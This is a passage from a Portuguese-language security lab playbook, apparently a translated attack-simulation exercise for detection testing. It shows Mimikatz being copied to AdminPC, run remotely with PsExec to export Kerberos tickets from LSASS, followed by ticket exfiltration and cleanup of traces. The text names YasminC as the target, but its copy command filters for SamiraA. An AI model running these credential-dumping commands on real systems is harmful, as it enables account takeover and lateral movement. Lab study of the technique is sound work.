 Aqui, iremos:

* Preparar Mimikatz no AdminPC
* Coletar Tíquetes no AdminPC
* Pass-the-Ticket para nos tornamos YasminC

### <a name="pass-the-ticket"></a>Pass-the-Ticket

No prompt de comando em execução no contexto de *EduardoHD* no **VictimPC**, vá até onde estão nossas ferramentas comuns de ataque. Em seguida, execute xcopy para mover essas ferramentas para o AdminPC:

``` cmd
xcopy mimikatz.exe \\adminpc\c$\temp
```

Pressione ```d``` quando solicitado, informando que a pasta "temp" é um diretório no AdminPC.

![Copiar arquivos para o AdminPC](media/playbook-escalation-xcopy1.png)

### <a name="mimikatz-sekurlsatickets"></a>Mimikatz sekurlsa::tickets

Com Mimikatz preparado em AdminPC, usaremos PsExec para executá-lo remotamente.

1. Vá até onde o PsExec está localizado e execute o seguinte comando:

   ``` cmd
   PsExec.exe \\AdminPC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
   ```

   Esse comando executará e exportará os tíquetes encontrado no processo LSASS.exe e coloque-os no diretório atual, em AdminPC.

2. Precisamos copiar os tíquetes de volta ao VictimPC de AdminPC. Já que estamos interessados apenas nos tíquetes de YasminC para este exemplo, execute o seguinte comando:

   ``` cmd
   xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
   ```

   ![Exportar credenciais coletadas de AdminPC de volta para VictimPC](media/playbook-escalation-export_tickets2.png)

3. Vamos limpar nossos rastros no AdminPC excluindo nossos arquivos.

   ``` cmd
   rmdir \\adminpc\c$\temp /s /q
   ```

   > [!Note]
   > Os invasores mais sofisticados não tocarão no disco durante a execução do código aleatório em um computador após a obtenção de privilégios administrativos nele.

   Em nosso **VictimPC**, temos esses tíquetes coletados em nossa pasta **c:\temp\adminpc_tickets**:

   ![C:\temp\tickets é a nossa saída exportada de mimikatz de AdminPC](media/playbook-escalation-export_tickets4.png)
